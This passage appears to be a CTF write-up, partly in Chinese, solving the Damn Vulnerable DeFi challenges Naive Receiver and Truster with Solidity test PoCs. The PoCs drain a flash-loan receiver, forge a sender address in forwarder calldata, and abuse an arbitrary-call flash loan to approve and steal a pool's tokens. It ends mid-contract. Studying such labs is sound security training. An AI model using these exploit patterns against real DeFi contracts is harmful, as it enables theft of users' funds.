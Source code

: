 [POC](./damn-vulnerable-defi/test/naive-receiver/NaiveReceiver.t.sol) : 
```
    function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDatas = new bytes[](11);
        for(uint i=0; i<10; i++){
            callDatas[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, "0x"));
        }
        callDatas[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
            bytes32(uint256(uint160(deployer)))
        );
        bytes memory callData;
        callData = abi.encodeCall(pool.multicall, callDatas);
        BasicForwarder.Request memory request = BasicForwarder.Request(
            player,
            address(pool),
            0,
            gasleft(),
            forwarder.nonces(player),
            callData,
            1 days
        );
        bytes32 requestHash = keccak256(
            abi.encodePacked(
                "\x19\x01",
                forwarder.domainSeparator(),
                forwarder.getDataHash(request)
            )
        );
        (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk ,requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        forwarder.execute(request, signature);
    }
```

### Truster

[題目](https://www.damnvulnerabledefi.xyz/challenges/truster/): 
越來越多的借貸池提供閃電貸款。在這個情況下，一個新的池子已經啟動，提供免費的 DVT 代幣閃電貸款。該池子持有 100 萬個 DVT 代幣。而你什麼都沒有。要通過這個挑戰，你需要在一筆交易中拯救池子中的所有資金，並將這些資金存入指定的恢復賬戶。

過關條件:
- 只能執行1筆交易
- 救援資金發送至 recovery 帳戶

解題:
- 在 floashLoan 中可以看到 target.functionCall(data); 可以執行任意calldata且target的地址可控. 可直接執行任意指令.

[POC](./damn-vulnerable-defi/test/truster/Truster.t.sol) : 
```
    function test_truster() public checkSolvedByPlayer {
        Exploit exploit = new Exploit(address(pool), address(token),address(recovery));
    }
    
 contract Exploit {
    uint256 internal constant TOKENS_IN_POOL = 1_000_000e18;

    constructor(address _pool, address _token, address recoveryAddress) payable {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), TOKENS_IN_POOL);
        pool.flashLoan(0, address(this), _token, data);
        DamnValuableToken token = DamnValuableToken(_token);
        token.transferFrom(_pool, address(recoveryAddress), TOKENS_IN_POOL);
```